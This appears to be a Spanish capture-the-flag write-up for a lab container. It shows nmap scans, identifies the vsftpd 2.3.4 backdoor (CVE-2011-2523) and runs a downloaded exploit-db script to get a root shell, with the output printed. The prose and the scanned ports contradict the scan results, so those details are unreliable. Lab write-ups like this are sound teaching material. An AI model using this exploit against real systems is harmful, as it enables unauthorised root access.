 #tag

![](../../../Images/Pasted%20image%2020241008071742.png)
# Enumeración

## Nmap

El escaneo de **nmap** nos enseña la existencia de un servicio SSH i un servicio HTTP funcionando.

```
> nmap --open --min-rate 10000 -Pn -n -oN scans/allTCPPorts $target

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 15:44 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000013s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.53 seconds
```

```
> nmap -oN scans/targetedTCPPorts -sCV $target -p 22,80                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 15:44 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000045s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.85 seconds
```

## FTP (21 TCP Port)

Enumerando el servicio **FTP** nos encontramos con una versión que tiene la vulnerabilidad [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523) que permite la ejecución de comandos.

Descargando el siguiente [exploit](https://www.exploit-db.com/exploits/49757) conseguimos acceso al sistema objetivo directamente con permisos de administrador.

```
> python3 49757 172.17.0.2

/home/rh4ps00dy/Downloads/firsthacking/49757:11: DeprecationWarning: 'telnetlib' is deprecated and slated for removal in Python 3.13
  from telnetlib import Telnet
Success, shell opened
Send `exit` to quit shell
id
uid=0(root) gid=0(root) groups=0(root)
```